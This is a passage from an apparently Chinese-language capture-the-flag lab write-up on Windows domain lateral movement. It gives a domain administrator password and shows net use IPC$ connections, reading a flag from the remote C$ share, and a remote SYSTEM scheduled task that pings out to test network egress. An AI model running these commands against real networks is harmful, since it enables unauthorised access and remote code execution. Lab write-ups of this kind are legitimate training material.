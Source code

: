 域管理员密码

```bash
administrator / Admin123$%^
```

### 建立ipc$连接

```bash
shell net use \\WIN-AAL3RP4ELEQ.nisp.com\ipc$ "Admin123$%^" /user:"nisp.com\Administrator"
shell net use \\192.168.27.110\ipc$ "Admin123$%^" /user:"nisp.com\Administrator"

shell net use
```

![image-20241125173850986](https://image.201068.xyz/assets/writeup/image-20241125173850986.png)

![image-20241125173927396](https://image.201068.xyz/assets/writeup/image-20241125173927396.png)

### flag

```bash
shell dir \\192.168.27.110\C$

shell dir \\192.168.27.110\C$\flag

shell type \\192.168.27.110\C$\flag\flag.txt
```

![image-20241125174017804](https://image.201068.xyz/assets/writeup/image-20241125174017804.png)

![image-20241125174157099](https://image.201068.xyz/assets/writeup/image-20241125174157099.png)

![image-20241125174057044](https://image.201068.xyz/assets/writeup/image-20241125174057044.png)

```bash
A49Q2Ds5w3
```

### 计划任务探测是否出网

```bash
shell schtasks /create /s 192.168.27.110 /u administrator /p "Admin123$%^" /tn test /tr "c:\windows\system32\cmd.exe /c ping 192.168.28.101 > c:\ping.txt" /sc onstart /RU System /F
shell schtasks /run /s 192.168.27.110 /u administrator /p "Admin123$%^" /tn test
shell dir \\192.168.27.110\C$\ping.txt
shell type \\192.168.27.110\C$\ping.txt
```

![image-20241125174708002](https://image.201068.xyz/assets/writeup/image-20241125174708002.png)

![image-20241125174758109](https://image.201068.xyz/assets/writeup/image-20241125174758109.png)

![image-20241125174815135](https://image.201068.xyz/assets/writeup/image-20241125174815135.png)
